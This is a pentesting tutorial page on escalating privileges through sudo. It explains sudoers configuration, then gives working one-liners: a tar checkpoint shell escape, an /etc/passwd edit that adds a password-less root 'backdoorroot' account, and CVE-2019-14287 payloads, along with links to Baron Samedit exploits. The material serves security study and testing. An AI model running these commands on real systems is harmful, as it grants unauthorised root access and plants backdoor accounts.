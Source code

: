 ```yaml
---
authors: ShutdownRepo, dreamkinn, p0dalirius
---
```


# SUDO

## Theory

`sudo` (Super User DO) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user (by default, the superuser).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers ( 😯 _I know right, big brains here_ 🧠 ). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 (read-only) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](./assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure configuration, or by exploiting the program's vulnerabilities.

### Default configurations

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following (default config for a new sudoer).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
 (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo `.

### Living off the land

While the SUDO configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
 (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### CVE-2019-14287 (#-1)

With SUDO running version < 1.8.28, an attacker in control of a "runas ALL" sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. 

Exploiting the bug requires sudo privileges and being able to run commands with an arbitrary user ID. This means the user's sudoers entry has to have the special value `ALL` in the "runas" specifier (the yellow and green parts in [the doodle above](sudo.md#theory)).

Vulnerable users can be found with the two commands below

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

The vulnerability can be exploited with one of the following payloads

```bash
sudo -u#-1 sh -p
sudo -u#4294967295 sh -p
sudo -u#$((0xffffffff)) sh -p
```

> [!TIP]
> Some technical details to the vulnerability
> 
> Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` (or its 32-bit unsigned equivalent `4294967295`), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.
> 
> Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.
> 
> More info can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)

### CVE-2021-3156 (Baron Samedit)

With SUDO running version < 1.9.5p2, a Heap-based Buffer Overflow allows for privilege escalation to root via `sudoedit -s` and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, the following command can be run as a non-root user.

```bash
sudoedit -s /
```

Patched versions will throw a `usage:` help message while vulnerable ones will throw the following `sudoedit:` error.

```
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

This vulnerability can be exploited with [this exploit](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot), or [this one](https://github.com/worawit/CVE-2021-3156).

More info about this vulnerability can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) and [here](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

## Resources

[https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo)

[https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4](https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4)

[https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)

